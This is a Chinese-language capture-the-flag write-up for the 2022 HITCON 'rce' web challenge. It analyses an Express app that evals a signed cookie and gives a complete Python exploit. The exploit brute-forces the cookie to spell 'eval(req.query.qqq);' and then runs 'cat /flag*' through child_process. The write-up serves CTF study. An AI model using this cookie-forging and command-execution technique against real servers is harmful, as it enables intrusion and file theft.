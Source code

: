 ::: info
2022-HitCon-Web-rce
:::

## 1、思路

本地部署：`npm install`，`node app.js`（⚠️：端口占用时修改监听端口）

（1）`Dockerfile` 保存 flag到文件中，生成一个随机的文件名，该文件名以 `/flag-` 开头，后接 32 字节的随机数据的 SHA1 哈希值

```dockerfile
RUN echo "hitcon{REDACTED}" > "/flag-$(head -c 32 /dev/random | sha1sum | cut -d ' ' -f 1 | tr -d '\n')"
```

（2）`index.html` 当点击按钮时，执行代码

- `progress.max = 40;`：设置进度条的最大值为40。
- `RCE.disabled = true;`：禁用名为“RCE”的按钮，防止用户重复点击。
- `while (true) {...}`：无限循环，直到条件被破坏。
- `const data = await fetch("/random").then(r => r.json());`：从服务器获取数据，该数据是从 `/random` 端点获取的 JSON 格式数据。使用 `fetch` 函数发送 HTTP 请求，然后将响应转换为 JSON 格式。
- `progress.value = data.progress;`：将获取到的数据中的进度值设置为进度条的当前值。
- `if (data.result !== null) {...}`：如果获取到的数据中的结果不为 null，表示已经获取到了最终结果。
- `document.querySelector('.window-body').innerHTML = '<h3>' + data.result + '</h3>';`：将获取到的结果显示在网页中，具体显示在类名为 `window-body` 的 HTML 元素中，使用 `<h3>` 标签包裹，以确保以标题的形式显示。
- `break;`：跳出循环，停止继续执行。

```html
    <script>
        RCE.onclick = async () => {
            progress.max = 40;
            RCE.disabled = true;
            while (true) {
                const data = await fetch("/random").then(r => r.json());
                progress.value = data.progress;
                if (data.result !== null) {
                    document.querySelector('.window-body').innerHTML = '<h3>' + data.result + '</h3>';
                    break;
                }
            }
        }
    </script>
```

（3）`app.js` 中 `eval(code)` 会评估或者执行参数 code，`Buffer.from()` 方法用于创建包含指定字符串、数组或缓冲区的新缓冲区，因此 code 来自 `req.signedCookies.code`，Express 通过 `res.cookie` 设置 cookie 并返回 eval(code) 的结果值，**如果 cookie 的长度不足 40 位 16 进制即 20 字节，就会随机生成一位 16 进制直至达到 20 字节**，因此插入的恶意代码需要是 20 字节

```js
app.get('/', function (_, res) {
    res.cookie('code', '', { signed: true })
        .sendFile(__dirname + '/index.html');
});

app.get('/random', function (req, res) {
    let result = null;
    if (req.signedCookies.code.length >= 40) {
        const code = Buffer.from(req.signedCookies.code, 'hex').toString();
        try {
            result = eval(code);
        } catch {
            result = '(execution error)';
        }
        res.cookie('code', '', { signed: true })
            .send({ progress: req.signedCookies.code.length, result: `Executing '${code}', result = ${result}` });
    } else {
        res.cookie('code', req.signedCookies.code + randomHex(), { signed: true })
            .send({ progress: req.signedCookies.code.length, result });
    }
});
```

## 2、设置 cookie

### 20 字节恶意代码

`req.query` 用在 get 请求当中，`req.body` 是用在 post 请求中的

`req.query.xxx` 让我们能够路由到 `/random?xxx=

- `eval(req.query.qqq);`

由于 20 字节需要转换为 16 进制，所以 `eval(req.query.qqq);` => `6576616c287265712e71756572792e717171293b`

### cookie 格式

```python
s = requests.get(url="http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800")
print(s.headers["Set-Cookie"])
// code=s%3A.2iFEryA%2BlXkG5krFOVq9H%2F4Pyh2DTm0ynvM%2BucCDHQM; Path=/
```

但 `requests.get` 中的 cookies 参数是 dict，因此需要满足格式 `{'code': '', 'Path': '/'}`，其中 code 的格式是在 s%3A 后面逐渐加随机数的，. 后面为其它数据

```python
def process_cookie(text):
    pairs = text.split('=')
    cookie_dict: dict = {
        'code': pairs[1].split(';')[0],
        'Path': '/'
    }
    return cookie_dict
```

保存每次的 cookie 循环访问 /random 以增加至 40 位 16 进制，并确保与恶意代码逐字一致（取最新生成的一位，即 . 前一位），因此至多遍历 16 $\times$ 40 次

```python
def get_cookie(text):
  return text.split('.')[0][-1]


url = "http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800/random"
cookies = process_cookie(s.headers["Set-Cookie"])

insert = "6576616c287265712e71756572792e717171293b"  # eval(req.query.qqq);
i = 0
while i < len(insert):
  s = request.get(url=url, cookies=cookies)
  if get_cookie(s.headers["Set-Cookie"]) == insert[i]:
    cookies = s.headers["Set-Cookie"]
    i = i + 1
```

### 执行系统命令

Node.js 中使用 child_process 模块执行系统命令，并将结果转换为字符串

```python
command = 'require("child_process").execSync("cat /flag*").toString()'
s = requests.get(url=url+f"?qqq={command}",cookies=cookies)
print(s.text)
```

## 3、exp

```python
import requests


def get_cookie(text):
    return text.split('.')[0][-1]


def process_cookie(text):
    pairs = text.split('=')
    cookie_dict: dict = {
        'code': pairs[1].split(';')[0],
        'Path': '/'
    }
    return cookie_dict


s = requests.get(url="http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800")
cookies = process_cookie(s.headers["Set-Cookie"])

url = "http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800/random"
insert = "6576616c287265712e71756572792e717171293b"  # eval(req.query.qqq);
i = 0
while i < len(insert):
    s = requests.get(url=url, cookies=cookies)
    if get_cookie(s.headers["Set-Cookie"]) == insert[i]:
        cookies = process_cookie(s.headers["Set-Cookie"])
        print(cookies)
        i = i + 1

command = 'require("child_process").execSync("cat /flag*").toString()'
s = requests.get(url=url+f"?qqq={command}",cookies=cookies)
print(s.text)
```

